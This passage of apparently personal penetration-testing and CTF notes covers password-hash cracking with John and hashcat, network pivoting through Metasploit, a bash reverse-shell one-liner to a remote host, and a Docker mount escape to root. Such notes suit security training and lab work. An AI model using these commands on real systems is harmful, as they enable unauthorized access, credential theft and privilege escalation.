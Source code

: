 ```dirsearch -u <url>```
Unshadow

    unshadow passwd shadow > unshadow.txt

Cracking with John

    john --rules --wordlist=/root/rockyou.txt unshadow
    (will take forever)

Alternative:

    hashcat -m 500 /root/rockyou.txt unshadow

Good to export that to a different machine with a strong GPU (Tower)

https://hashcat.net/hashcat/ 
https://resources.infosecinstitute.com/hashcat-tutorial-beginners/ 


**Pivoting**

Tunneling into a different network via another machine.

*Setup a lab*

Go in virtual network editor

    Kali
        One Host-Only network with:
        Subnet IP   10.1.10.0
        Mask        255.255.255.255

    Windows in the middle    

    Victim
        One Nat Network with:
        Subnet IP   192.168.134.0
        Mask        255.255.255.0

*Metasploit*

    run autoroute -s 192.168.134.0/24
    run autoroute -p 

**CTF Notes**

*Reverse Shells*

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 

    bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 

*Docker*

https://gtfobins.github.io/gtfobins/docker/ 

    docker run -v /:/mnt --rm -it bash chroot /mnt sh

bash maybe has to be changed into what is running

*SUID*

Get files that have the SUID Bit set 
```